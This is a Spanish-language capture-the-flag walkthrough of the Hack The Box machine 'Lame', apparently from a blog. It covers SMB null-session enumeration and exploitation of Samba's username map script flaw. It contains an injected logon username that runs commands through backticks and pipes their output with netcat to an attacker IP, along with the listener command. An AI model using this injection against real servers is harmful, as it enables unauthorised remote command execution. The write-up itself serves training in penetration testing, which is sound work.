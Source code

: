 Primero vamos a probar a ver si podemos listar los recursos compartidos a nivel de red de este servidor con un Null sesión. [[SMB]]

```python
smbclient -L 10.129.4.93 -N
```

![Desktop View](/assets/img/Lame/Pasted image 20221117135023.png){: width="972" height="589" }
Si buscamos este error en google, nos dirán que podemos hacer para solucionar este pequeño problema.

Encontramos una posible solución que es añadir la opción client min protocol = NT1, entonces el comando quedaría así:
```python
smbclient -L 10.129.4.93 -N  --option 'client min protocol = NT1' 
```

Y funciona:

![Desktop View](/assets/img/Lame/Pasted image 20221117135731.png){: width="972" height="589" }

---

# Exploitation
## User Map Script
Ahora que hemos visto los recursos compartidos vamos a intentar conectarnos a uno, probaremos con tmp:

```python
smbclient //10.129.4.93/tmp -N  --option 'client min protocol = NT1' 
```

Vemos que si que podemos acceder a ello.
Tal y como hemos visto en el exploit, 
```ruby
username = "/=`nohup " + payload.encoded + "`"
```
Esto nos indica que si ponemos el usuario seguido del payload y cerramos, podamos ejecutar esos comandos. Probemos con un whoami
Para iniciar sesion tenemos el comando logon en smb
```python
logon "/=`nohup whoami | nc 10.10.14.48 4567`"
```

nos ponemos en escucha por tanto en el Puerto 4567:
```python
nc -nlvp 4567
```
Nos pedira una contraseña pero ponemos cualquiera:

![Desktop View](/assets/img/Lame/Pasted image 20221117141053.png){: width="972" height="589" }
Y en el netcat obtenemos...

![Desktop View](/assets/img/Lame/Pasted image 20221117141117.png){: width="972" height="589" }
